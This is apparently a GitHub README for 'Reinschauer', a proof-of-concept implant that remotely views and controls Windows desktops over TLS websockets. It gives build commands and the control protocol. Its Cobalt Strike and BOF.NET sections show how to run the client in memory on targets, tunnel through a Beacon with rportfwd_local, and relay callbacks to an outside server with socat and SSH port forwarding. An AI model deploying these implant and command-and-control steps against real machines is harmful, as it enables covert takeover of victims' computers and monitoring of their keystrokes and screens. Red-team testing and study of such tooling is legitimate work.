 # Reinschauer

![Hello](https://github.com/ps1337/reinschauer/blob/main/server/reinschauer.jpg?raw=true)

A PoC to remotely control Windows machines over Websockets. Check out [my blog](https://bananamafia.dev/post/reinschauer/) for a writeup.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer.gif?raw=true)

- Can be executed as Go exe, .NET/C# exe and in-memory using [BOF.NET](https://github.com/CCob/BOF.NET) and Cobaltstrike.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer_start.png?raw=true)

- Traffic can be tunneled via an interactive Beacon connection.
- Other than most HVNC implementations, `reinschauer` converts raw bitmaps to JPEG and compresses the resulting data before sending it across the network to reduce frame size.
- FPS and quality settings can be dynamically changed via the GUI. These affect the implant, so that network traffic is reduced. Dynamic scaling allows using this tool as an implant for machines with large screens.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/goodquality.gif?raw=true)

- Basic mouse and keyboard controls are possible.
- You can use the script in the `server` folder to generate TLS server files or bring your own.
- The server window can be resized freely, while click events should™ be translated to the correct pixel on the target machine.
- Use `reinschauer-server -h` for available options.

## Protocol

```
+----------------------------------------------------------------------------------------+
|                                                                                        |
|                                                                                        |
|                  +----------------------------------------------------+                |
|                  |#1: Type (Binary or Text)                           |                |
|                  |    Binary: JPG Frame                               |                |
|                  |                                                    |                |
|                  |#2: Text                                            |                |
|                  |    ELO (Ping)                                      |                |
|                  |    FPS <FPS Count>                                 |                |
|                  |    SCL <Scaler Count>                              |                |
|                  |    QUL <JPG Quality>                               |                |
|                  |    LCL X Y (Left Click + Coordinates)              |                |
|                  |    RCL X Y                                         |                |
|                  |    KEY <Char>                                      |      xxxxxx    |
|       xxxxx   <--+----------------------------------------------------+--> xxxx   xx   |
|       x   xx                     Websockets via TLS                        xx       x  |
| x     xxxxxx                                                                xxxxxxxxx  |
| xxx     x   xx                                                          xx    x        |
|     xxxxxxxx                                                              xxxxx xxxxxx |
|         x                                                                   xxxxx      |
|         xx                                                                   xx        |
|         x xx                                                                 xxx       |
|        xx  xx                                                                x xx      |
|        x    xx                                                              xx  xxx    |
|       x      xx                                                             x     xx   |
|       x       x                                                            xx      x   |
+----------------------------------------------------------------------------------------+
```

## FAQ

**How to build?**

- Install a new version of golang, `>=1.18`
- For debian-based distros: `sudo apt -y install libx11-dev libxcursor-dev xorg-dev libgl1-mesa-dev`

```bash
$ cd client && GOOS=windows GOARCH=amd64 go build
$ cd server && GOOS=linux GOARCH=amd64 go build
```

I've included a pre-built and standalone version of the dotnet variant in this repo. If you want to build it yourself, use the Visual Studio project file to build the x64 Release variant. If it doesn't happen automatically, download the required NuGet packages for the project via Visual Studio. Your target system most likely doesn't have these packages installed as well and therefore DLLs may be missing when executing the resulting exe on the target. To get around this, this project automatically invokes `ILMerge.exe` to bundle the resulting exe along with the required libraries. Therefore, use the generated file called `reinschauer-dotnet-standalone.exe` on targets.

> You may have to `go get` stuff before. Use `-ldflags -H=windowsgui` to disable to console window.

**Who's the client/server?**

> The `client` is executed on the target (Windows) machine. The `server` component is executed on the tester's (Linux) machine. It listens on `0.0.0.0:6969` by default. Both the Golang and C# client are compatible with the server.

**Is this a HVNC / Hidden Desktop?**

> No. It uses the same Desktop as the user.

**Some keys and key combinations do not work, pls fix**

> I know that |, @ and § might not work currently, at least on my german potato keyboard. Pls Fix.

**The Client uses too much CPU Time**

> Using a lower FPS value may work.

**I don't have a direct connection between `client` and `server`**

> You can use the Cobaltstrike CNA script, which tunnels traffic via Beacon.

**I don't have Cobaltstrike!**

> Use a `socat` redirector like:

```bash
socat TCP4-LISTEN:1337,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

> and start the client with the required parameters or hardcode them.

## Notes Regarding BOF.NET and Cobaltstrike Usage

First, set up [BOF.NET](https://github.com/CCob/BOF.NET) according to the manual. Also, load the standalone exe with `bofnet_load <Path to Exe>`. Then, decide how to use Reinschauer:

1. You can tunnel the traffic across an active Beacon connection.
2. You can send traffic to any other Internet-facing server

### Tunnelling Traffic via Beacon

- Set the session to interactive: `sleep 0`.
- Set up remote port forwarding: `rportfwd_local 6969 127.0.0.1 6969`.
- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff`. This automatically causes Reinschauer to connect to `127.0.0.1:6969` on `127.0.0.1` of the target machine. This also deactivates TLS, since it uses the Beacon connection anyway.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.

*Important note regarding remote port forwarding:* It seems that the `rportfwd_local` causes Beacon to listen on `0.0.0.0` and there seems to be no way to set it to `127.0.0.1` :/ This may trigger a Windows Firewall prompt on the system and that's not cool. If you don't want this, use another remote port forwarding solution for Cobaltstrike or use the following approach.

### Sending Traffic to Another Server

- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff <Server IP> <Server Port> true`. The boolean parameter enables TLS usage.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.


Then, use SSH and the [GatewayPorts](https://man.openbsd.org/sshd_config#GatewayPorts) feature: Add `GatewayPorts: clientspecified` to `sshd_config` and restart the SSH server. Then, `ssh -R '0.0.0.0:8080:localhost:6969'' [...]` will make your local port `6969` available on `0.0.0.0:8080`. Be careful :)

Or, set up a `socat` redirector on the Server:

```bash
socat TCP4-LISTEN:<Server Port>,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

